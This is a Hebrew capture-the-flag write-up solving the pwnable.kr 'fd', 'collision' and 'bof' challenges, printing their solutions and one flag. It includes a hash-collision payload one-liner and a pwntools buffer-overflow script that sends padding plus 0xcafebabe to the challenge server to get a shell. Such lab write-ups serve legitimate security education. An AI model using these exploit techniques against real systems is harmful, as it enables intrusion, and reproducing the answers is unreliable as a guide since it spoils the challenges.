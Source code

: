 # pwnable.kr
## fd
### מה זה fd?

fd הוא קיצור של file descriptor.
<br/>
fd מתאר קובץ על ידי מספר חיובי שלם במערכת ההפעלה המתייחס לתיאור הקובץ
<br/>
למשל:
```bash
standard input (stdin)   is '0'
standard output (stdout) is '1'
standard error (stderr)  is '2'
```
<br/>

![Capture1](https://user-images.githubusercontent.com/67608539/144753581-4a7b1d05-2376-4fff-bc07-5398d6a407e8.PNG)
<br/><br/><br/><br/>


נעתיק את קוד ה 'ssh' לטרמינל של לינוקס, אני משתמש ב- 'ubuntu-20.04.3'
ומיד לאחר מכן את הסיסמא- 'guest' כפי שמצויין.

![Capture2](https://user-images.githubusercontent.com/67608539/144739990-ee683c1e-22fd-4d91-bca2-c34611f46f69.PNG)
<br/><br/><br/><br/>

פעולה ראשונה שנעשה היא לבדוק אילו קבצים נמצאים, נכתוב את הפקודה 'ls' על מנת לראות אילו ספריות וקבצים יש במיקום

![Capture3](https://user-images.githubusercontent.com/67608539/144740069-b1909b2c-b7f3-4f22-ac1e-006e64dcfc32.PNG)

<br/><br/><br/><br/>
ישנם שלושה קבצים, אחד מהם קובץ C.
המטרה שלנו להגיע ל 'flag' מסויים, 
ניתן לראות שיש קובץ 'flag' ננסה לראות מה יש בו באמצעות הפקודה 'cat' 
על מנת לראות את תוכנו של הקובץ
![Capture9](https://user-images.githubusercontent.com/67608539/144740230-027723f7-953c-4d1d-9fe3-896ceb65cef2.PNG)

```bash
cat: flag: permission denied 
```
אין לנו מספיק הרשאות כדי להיכנס לקובץ.
<br/><br/><br/><br/>

ננסה להריץ את הפקודה 'cat' על הקובץ 'fd.c'
![Capture4](https://user-images.githubusercontent.com/67608539/144740294-e9bb5014-e7b2-436d-bee1-efee4873d38f.PNG)

ניתן לראות שהתוכנית אמורה לקבל ארגומנט כלשהו, ננסה להריץ מספר ניסיונות.
```c
int main(int argc, char* argv[], char* envp[])
```
כאשר לא מזינים ארגומנט כלשהו, נקבל הודעה שאמור להיות ארגומנט.

![Capture5](https://user-images.githubusercontent.com/67608539/144743474-d17bbbcc-886f-4257-8ee4-aacd55a227ef.PNG)
```c
if(argc<2){
        printf("pass argv[1] a number\n");
        return 0;
        }
```

ננסה שנית אך הפעם נזין ארגומנט כלשהו

![Capture6](https://user-images.githubusercontent.com/67608539/144743499-c5ba09c1-913d-4d32-9ee9-f0b84250bd0c.PNG)

ניתן לראות שאנחנו מקבלים הודעה שונה מהקודמת.

נסתכל על השורה הזאת בקוד-
```bash
int fd = atoi( argv[1] ) - 0x1234;
```

 נמיר את '0x1234' למספר דצימלי.
 נקבל את המספר 4660.
 נשים כארגומנט את המספר 4660 כך שפעולת החיסור תיתן לנו-0.
 ```bash
 fd = 0; 
 ```
 
 ניתן לראות שבניגוד לניסיונות הקדומים, כאן אנו מקבלים אופציה לקלט 
 ![Capture7](https://user-images.githubusercontent.com/67608539/144743866-4a3408b4-4db3-4c46-933a-7f766575327a.PNG)
 
 ננסה להזין את המילה שמושוואת בתנאי- '"LETMEWIN"'
![Capture8](https://user-images.githubusercontent.com/67608539/144743874-1c2d02e7-bb97-494a-8d94-df4b9aea573a.PNG)


הגענו לפיתרון!
 ```bash
flag- “ mommy! I think I know what a file descriptor is!! ”
```



---

<br/><br/>
חשוב להבין מקטע הקוד מה הם הפונקציות- read ו system

```bash
read() attempts to read up to count bytes from file descriptor fd
into the buffer starting at buf.
```
[להמשך קריאה-read](https://man7.org/linux/man-pages/man2/read.2.html)

```bash
system() used to pass the commands that can be executed in the command processor
or the terminal of the operating system
```
[להמשך קריאה-system](https://man7.org/linux/man-pages/man3/system.3.html)

<br/><br/><br/><br/><br/><br/><br/>
## collison
<br/><br/>
```bash
0x21DD09EC -> 568134124
4*5= 20; 20 bytes, 5 of 4 bytes.
568134124/4 = ~113626824
568134124- (113626824*4) = 113626828

dec-
113626824  113626824  113626824  113626824  113626828

hex-
0x6C5CEC8 0x6C5CEC8 0x6C5CEC8 0x6C5CEC8 0x6C5CECC

`python -c 'print ("\xc8\xce\xc5\x06" * 4 + "\xcc\xce\xc5\x06")'`
```

<br/><br/><br/><br/><br/><br/><br/>
## bof
<br/><br/>

```python 
from pwn import *

shell = remote("pwnable.kr", 9000)
text = 'A' * 52 + '\xbe\xba\xfe\xca'

shell.sendline(text)
shell.interactive()

#ignore - BytesWarning
#type ls
#see flag
# type cat flag
```
